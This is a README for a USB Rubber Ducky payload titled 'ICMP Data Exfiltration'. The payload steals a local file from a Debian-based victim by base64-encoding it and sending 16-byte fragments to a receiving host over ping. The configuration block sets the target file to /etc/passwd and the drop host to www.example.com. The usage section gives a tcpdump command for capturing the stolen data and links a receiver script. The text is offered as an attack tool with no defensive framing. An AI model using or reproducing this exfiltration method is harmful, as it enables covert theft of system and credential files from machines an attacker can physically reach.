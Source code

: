 # ICMP Data Exfiltration

- Title:         ICMP Data Exfiltration
- Author:        TW-D
- Version:       1.0
- Targets:       Debian-Based Linux Distributions
- Category:      Exfiltration

## Description

Exfiltrates a local file from a victim machine using the native "ping" utility.
The file is first converted to "Base64", then divided into 16-byte fragments.
The "ping" utility is then used to transmit the data to a receiving host.

__Note :__ *The "base64" and "ping" utilities are required.*

## Configuration

In the "payload.txt" file, replace the values of the following constants :

```

REM ---
REM USB Rubber Ducky label.
REM ---
DEFINE #RD_LABEL DUCKY

REM ---
REM Absolute path of the file to be exfiltrated.
REM ---
DEFINE #TARGET_FILE /etc/passwd

REM ---
REM IP address or domain receiving ICMP packets.
REM ---
DEFINE #DROP_HOST www.example.com

```

## Usage

I) At the root of the USB Rubber Ducky, copy the "payload.sh" file.

II) To receive data, you can use :

```
tcpdump -A --interface="<INTERFACE>" -l -n -q --snapshot-length=0 -t "icmp[icmptype] == 8"
```

> OR

https://github.com/TW-D/tcpdump_ICMP-Data-Exfiltration/blob/main/tcpdump_icmp-data-exfiltration.rb
